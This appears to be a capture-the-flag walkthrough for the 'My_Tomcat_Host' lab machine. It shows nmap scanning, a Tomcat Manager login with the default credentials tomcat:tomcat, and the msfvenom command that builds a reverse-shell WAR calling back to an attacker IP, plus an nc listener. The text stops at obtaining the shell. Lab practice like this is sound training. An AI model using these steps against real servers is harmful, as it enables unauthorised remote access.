





# My_Tomcat_Host

\

## 

## My_Tomcat_Host

- **My_Tomcat_Host** :-

<!-- -->

- Download the machine .
- Import the ova file in virtual box .
- Then start the machine .

<!-- -->

- Not assign the ip :

- If not show the ip then check network connection in virtul box .

1.  Recon and Enumeration :

- Run nmap command to scan :

    nmap -sn 192.168.2.0/24

    nmap -v -p- 192.168.2.135

- Notable open ports : 22/tcp – SSH 8080/tcp – Apache Tomcat

1.  Exploring Apache Tomcat :

- Access Web Interface :
- Navigate to : <http://192.168.2.135:8080/>

 Default Tomcat page visible.

- Tomcat Manager Login :

- Common default creds : tomcat:tomcat admin:admin

 Login successful with tomcat:tomcat

1.  Uploading a Reverse Shell :

- Creating JSP Reverse Shell :
- Use msfvenom to create a WAR file :

    msfvenom -p java/shell_reverse_tcp LHOST=192.168.2.219 LPORT=443 -f war -o shell.war

- Upload WAR File : <http://192.168.2.135:8080/manager/html>

- Deploy WAR File : Upload shell.war via Tomcat Manager.

1.  Getting a Reverse Shell :

- Start Listener :

    nc -lvnp 443

- Trigger Shell : Visit : <http://192.168.2.135:8080/shell/> Netcat
  receives a connection.

<!-- -->

- Get the reverse shell :

